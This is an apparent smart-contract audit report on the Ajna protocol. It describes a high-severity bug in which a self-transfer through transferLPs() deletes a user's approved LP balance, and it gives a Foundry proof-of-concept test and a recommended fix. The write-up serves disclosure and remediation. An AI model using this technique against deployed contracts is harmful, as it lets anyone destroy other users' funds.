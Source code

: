 Tajobin

high

# LP tokens are permanently burned if they are transferred to the same account

---
name: Audit item
about: These are the audit items that end up in the report
title: LP tokens are permanently burned if they are transferred to the same account
labels: "High"
assignees: ""
---


## Summary

Depositors' LP tokens can be transferred between accounts by first approving the transfer with `approveLpOwnership()` and then by calling the `transferLPs()` function. It is reasonable to assume that some users would use this function to transfer LP tokens between their own accounts to, for example, keep them in cold storage. If a user approves a transfer to the account holding the LP tokens instead of the one they wish to transfer it to anybody will be able to permanently burn their LP tokens by calling `transferLPs()`.

This can be deemed a user mistake BUT it is a mistake that is allowed to happen in many interactions on EVM chains. Transferring ETH or an ERC20 to the same account has no consequences, it is even a viable way of canceling a transaction (for ETH transfers). Since the consequences are so grave and since it is likely to happen I deem it a severe vulnerability that would likely be blamed on the Ajna contract logic. 

There is an incentive to burn any user's LP tokens if they approve ownership to the same account by mistake since it would essentially lock the tokens on the market for a fixed price in perpetuity.
 
## Vulnerability Detail

If a user approves the transfer of LP tokens to the same account anybody can call `transferLPs()` and burn the approved tokens. In the LenderActions library from L543-L550 we can see that the `newOwner_` balance is first incremented and that the balance of `owner_`  is then deleted. If those addresses are the same the user's balance is first increased and then permanently deleted.

### POC

Add the following test to the ERC20TransferLPTokens.t.sol test file.

```solidity
function testBurnWhenSelfTransfer() public {
        uint256[] memory indexes = new uint256[](3);
        indexes[0] = 2550;
        indexes[1] = 2551;
        indexes[2] = 2552;

        _addInitialLiquidity(
            {
                from:   _lender1,
                amount: 10_000 * 1e18,
                index:  indexes[0]
            }
        );
        _addInitialLiquidity(
            {
                from:   _lender1,
                amount: 20_000 * 1e18,
                index:  indexes[1]
            }
        );
        _addInitialLiquidity(
            {
                from:   _lender1,
                amount: 30_000 * 1e18,
                index:  indexes[2]
            }
        );

        _assertLenderLpBalance(
            {
                lender:      _lender1,
                index:       indexes[0],
                lpBalance:   10_000 * 1e27,
                depositTime: _startTime 
            }
        );
        _assertLenderLpBalance(
            {
                lender:      _lender1,
                index:       indexes[1],
                lpBalance:   20_000 * 1e27,
                depositTime: _startTime 
            }
        );

        _assertLenderLpBalance(
            {
                lender:      _lender1,
                index:       indexes[2],
                lpBalance:   30_000 * 1e27,
                depositTime: _startTime 
            }
        );

        _pool.approveLpOwnership(_lender1, indexes[0], 10_000 * 1e27);
        _pool.approveLpOwnership(_lender1, indexes[1], 20_000 * 1e27);
        _pool.approveLpOwnership(_lender1, indexes[2], 30_000 * 1e27);

        _transferLpTokens(
            {
                operator:  _lender,
                from:      _lender1,
                to:        _lender1,
                indexes:   indexes,
                lpBalance: 60_000 * 1e27
            }
        );

        _assertLenderLpBalance(
            {
                lender:      _lender1,
                index:       indexes[0],
                lpBalance:   0,
                depositTime: 0
            }
        );
        
        _assertLenderLpBalance(
            {
                lender:      _lender1,
                index:       indexes[1],
                lpBalance:   0,
                depositTime: 0
            }
        );

        _assertLenderLpBalance(
            {
                lender:      _lender1,
                index:       indexes[2],
                lpBalance:   0,
                depositTime: 0
            }
        );
    }
```

## Impact

All LP tokens approved are permanently burned and the underlying funds are unrecoverable.

## Code Snippet


https://github.com/sherlock-audit/2023-01-ajna/blob/main/contracts/src/base/Pool.sol#L238

https://github.com/sherlock-audit/2023-01-ajna/blob/main/contracts/src/libraries/external/LenderActions.sol#L543-L550

https://github.com/sherlock-audit/2023-01-ajna/blob/main/contracts/src/base/Pool.sol#L164

## Tool used

foundry test

## Recommendation

Add a check that `owner_ != newOwner_` in the `transferLPs()` function in the LenderActions library.